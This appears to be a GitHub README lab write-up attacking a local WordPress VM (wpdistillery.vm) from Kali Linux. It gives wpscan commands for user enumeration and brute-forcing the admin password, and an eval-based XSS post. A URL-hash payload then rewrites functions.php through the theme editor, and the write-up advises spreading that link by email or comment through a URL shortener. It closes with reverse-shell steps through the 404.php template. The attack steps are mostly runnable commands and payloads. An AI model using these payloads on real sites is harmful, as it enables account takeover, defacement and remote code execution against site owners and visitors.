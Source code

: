 # WordPressvsKali
Exploit 1: User Enumeration

In this exploit, I launched a user enumeration attack on WPDistillery.vm

1. Open a terminal in Kali
2. Access wpscan tool
3. Input the command
  - sudo wpscan --url http://wpdistillery.vm -e u rockyou.txt
  - Note: -e = enumeration, u = user, and I used rockyou.txt as the userlist.
  
  ![image](https://user-images.githubusercontent.com/111927957/198867624-89719a11-b1f8-4dac-9ea2-abc15ae25f50.png)
  
  The results of the user enumeration scan:
  
  ![image](https://user-images.githubusercontent.com/111927957/198867668-cf89a4a8-8283-4ad0-8e65-b0676c2a8c3c.png)
  
  The enumeration scan identified "admin" as an available user.
  
  This can be checked by attempting to login as Admin on wpdistillery.vm/wp-login.php
  
  ![image](https://user-images.githubusercontent.com/111927957/198867726-35f6a92c-34ed-4111-be9f-97624dd0da9b.png)
  
  The results show that "The password you entered for the username admin is incorrect". This proves that admin is a user on this website. 
  
  Next, I will bruteforce into admin using wpscan.
  
  1. Continuing on the same terminal, insert the command: 
    - sudo wpscan --url http://wpdistillery.vm/wp-login.php -U 'admin' -P fasttrack.txt
    - Note: I'm using fasttrack.txt wordlist to bruteforce into admin.
  ![image](https://user-images.githubusercontent.com/111927957/198867852-f8efa7d9-37e8-4bf9-aee1-a6349979a3dc.png)
  
  ![image](https://user-images.githubusercontent.com/111927957/198867860-d9372c27-a756-4ffc-9b8a-43e7f6f55b2d.png)
  
  Results of the wpscan shows that user "admin" has the password "admin".

  Now we are able to log in as admin and access the website.
  
  Exploit 2: XSS
  
  In this exploit, I will show a method to launch a XSS attack. 
  
  1. As admin, add this script as a new post in the text tab then publish:
     - <script>eval(window.location.hash.substring(1))</script>
     - This makes the website vulnerable to XSS
     - To confirm that it works, go back to the mainpage wpdistillery.vm then add /#alert(1)
     - An alert box should pop up, showing (1)
     ![image](https://user-images.githubusercontent.com/111927957/198874401-26b38a41-6bc0-444d-a1bb-e3b1a6b4c81b.png)
     
   2. Go to theme editor > file functions.php
   3. Insert the following code to break the page:
   -nc=document.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()
   
   4. Refresh the page the add this to the end of the URL:
   #i=document.createElement('iframe');document.body.appendChild(i);i.src='/wp-admin/theme-editor.php?      file=functions.php';window.setTimeout(function(){nc=i.contentDocument.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()},3000)
  
   5. Users now won't have access to any access to the website.

![image](https://user-images.githubusercontent.com/111927957/198875062-37c59997-b311-4f63-a008-697fabf3d330.png)

  6. Use a URL shortener to deliver and send this attack as an email or even a comment that the user would read/click on.

Exploit 3: Privilege Escalation

  This exploit will show privilege escalation on WPDistillery.vm
  
  1. Using user enumeration as previously shown, the attacker can use leverage this skill by finding a user available for attack.
  2. Once the user is able to log in using an authenticated user, the attacker can now attempt to escalate the privilege by opening a        reverse shell.
  3. This can be done by using 404.php template on WordPress and inserting a reverse shell implementation php.
      ![image](https://user-images.githubusercontent.com/111927957/198873488-db0d3e67-f8bd-49fc-af98-b69be130547a.png)
      
  4. Make sure to change the IP and Port configuration on the reverse shell php to the correct IP and listening Port so          NetCat can listen to the specified port and access the shell.





  

